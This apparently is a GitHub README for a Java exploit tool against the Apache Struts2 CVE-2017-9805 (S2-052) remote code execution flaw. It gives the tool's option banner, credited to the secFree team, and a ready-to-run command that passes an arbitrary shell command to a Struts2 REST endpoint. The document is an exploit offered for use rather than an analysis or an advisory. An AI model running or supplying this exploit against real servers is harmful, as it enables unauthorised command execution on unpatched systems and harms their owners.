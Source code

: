 # CVE-2017-9805 （S2-052） Exploit For Nc

## Options

```
 [*] Apache Struts2 CVE-2017-9805 (S2-052) - Exploit
 [*] 0day Info:https://secfree.com/article-333.html
 [*] Use:        <targetUrl> <command>
 [*] Author:  www.secFree.com Team By Bearcat
```

## Usage

```
java -jar CVE-2017-9805-Exploit.jar http://192.168.199.246:8080/struts2-rest-showcase/orders.xhtml "command"
```

![exploit](https://github.com/iBearcat/S2-052/blob/master/exploit.jpg?raw=true)

